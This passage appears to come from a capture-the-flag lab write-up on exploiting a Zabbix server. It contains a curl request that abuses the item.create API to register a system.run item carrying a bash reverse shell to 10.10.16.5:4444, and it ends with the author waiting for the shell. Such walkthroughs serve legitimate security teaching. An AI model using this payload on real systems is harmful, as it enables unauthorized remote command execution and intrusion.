 <br/>

We can try another approach by creating a `system.run` item using the `item.create` API call and execute it.   

```bash
 curl -X POST http://10.10.11.50/zabbix/api_jsonrpc.php \
-H "Content-Type: application/json" \
-d '{
    "jsonrpc": "2.0",
    "method": "item.create",
    "params": {
        "name": "Run System Command",
        "key_": "system.run[/bin/bash -c \"sh -i >& /dev/tcp/10.10.16.5/4444 0>&1\"]",
        "hostid": "10084",
        "type": 0,
        "value_type": 4,
        "delay": "1s",
        "interfaceid": "1"
    },
    "auth": "f432794c9218c51da66076f3415e876f",
    "id": 2
}'
```

We get a `success` message.   

<br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225121834.png" alt="1" style="width:700px; height:auto;">
<br/>

Waiting for a `shell`.   

<br/> 
<img src="/img/Unrested_Screenshots/Pasted image 20241225121856.png" alt="1" style="width:700px; height:auto;">
<br/>
